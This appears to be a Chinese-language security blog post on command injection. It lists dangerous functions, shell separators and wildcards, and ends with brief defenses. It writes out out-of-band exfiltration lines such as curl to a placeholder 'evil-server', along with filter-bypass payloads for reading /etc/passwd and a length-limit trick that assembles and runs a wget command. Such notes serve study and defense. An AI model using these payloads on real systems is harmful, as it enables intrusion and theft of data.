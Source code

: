 ```yaml
---

title: 命令注入

date: 2023-12-26 02:01:50

tags:

---
```


# 命令注入

##  简介

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

<!--more-->

## . 常见危险函数

### PHP

- system
- exec
- passthru
- shell_exec
- popen
- proc_open
- 

### Python

- system
- popen
- subprocess.call
- spawn

### Java

- java.lang.Runtime.getRuntime().exec(command)

## 常见注入方式

- 分号分割
- `||` `&&` `&` 分割
- `|` 管道符
- `\r\n` `%d0%a0` 换行
- 反引号解析
- `$()` 替换

## 无回显技巧

- bash反弹shell

- DNS带外数据

- - http带外

    `curl http://evil-server/$(whoami)``wget http://evil-server/$(whoami)`

- 无带外时利用 `sleep` 或其他逻辑构造布尔条件

## 常见绕过方式

### 空格绕过

- `<` 符号 `cat<123`
- `\t` / `%09`
- `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

### . 黑名单绕过

- `a=l;b=s;$a$b`
- base64 `echo "bHM=" | base64 -d`
- `/?in/?s` => `/bin/ls`
- 连接符 `cat /etc/pass'w'd`
- 未定义的初始化变量 `cat$x /etc/passwd`

### 长度限制绕过

```
>wget\
>foo.\
>com
ls -t>a
sh a
```

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

## 常用符号

### 命令分隔符

- `%0a` / `%0d` / `\n` / `\r`
- `;`
- `&` / `&&`

### 通配符

- `*` 0到无穷个任意字符
- `?` 一个任意字符
- `[ ]` 一个在括号内的字符，e.g. `[abcd]`
- `[ - ]` 在编码顺序内的所有字符
- `[^ ]` 一个不在括号内的字符

## 防御

- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
  - shell元字符包括 `#&;`,|*?~<>^()[]{}$\`